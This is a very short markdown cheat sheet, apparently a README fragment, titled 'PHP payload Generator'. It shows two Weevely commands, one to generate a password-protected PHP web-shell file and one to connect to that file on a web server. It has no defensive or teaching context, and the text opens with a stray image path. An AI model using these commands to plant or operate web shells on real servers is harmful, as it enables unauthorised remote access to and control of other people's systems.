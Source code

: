 #PHP payload Generator#

##To generate reverse shell payload##
```Weevely <password> /path/filename.php```

##To connect to the payload##
```Weevely <URL> <Password>```
